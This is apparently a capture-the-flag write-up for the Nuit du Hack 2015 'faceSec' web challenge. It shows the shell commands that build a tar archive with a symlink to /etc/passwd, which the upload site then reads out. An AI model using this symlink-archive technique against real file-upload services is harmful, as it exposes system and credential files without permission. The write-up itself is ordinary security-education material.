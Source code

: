 # Nuit du Hack Quals CTF 2015: faceSec

**Category:** Web
**Points:** 100
**Solves:** 85
**Description:** 

> "Hello there,
> 
> We are looking for a developer or security consultant to secure our filebox system. We stumbled upon your LinkedIn profile and it seems like you would be a perfect candidate for this job. Could you please send us your CV and Motivation letter?
> 
> Thanks,
> 
> faceSec HR Director."
> 
> <http://facesec.challs.nuitduhack.com/>

___

## Write-up

This task is a web task worth 100 points from the [Nuit du Hack qualifications](http://quals.nuitduhack.com/).<br>
We are given a website that lets you upload txt files for a cover letter, and a motivation letter. (cv.txt, motiv.txt).<br>
It is also possible to a tar file containing both files.<br>
Once you uploaded them, you can see them in your profile.<br>
It is possible to add symlinks to a tar file. We tried to put a symlink to /etc/passwd, and uploaded it.

```bash
xer@suicune:~/www/writeup/2015/ndh$ ln -s /etc/passwd cv.txt
xer@suicune:~/www/writeup/2015/ndh$ echo -ne "The game" > motiv.txt
xer@suicune:~/www/writeup/2015/ndh$ tar cvf pwn.tar *.txt
cv.txt
motiv.txt
```


It worked.

![Alt text](http://i.imgur.com/H0EdL25.png)<br>
_/etc/passwd_

__Flag:__ W00tSymL1nkAttackStillW0rksIn2k15

— XeR
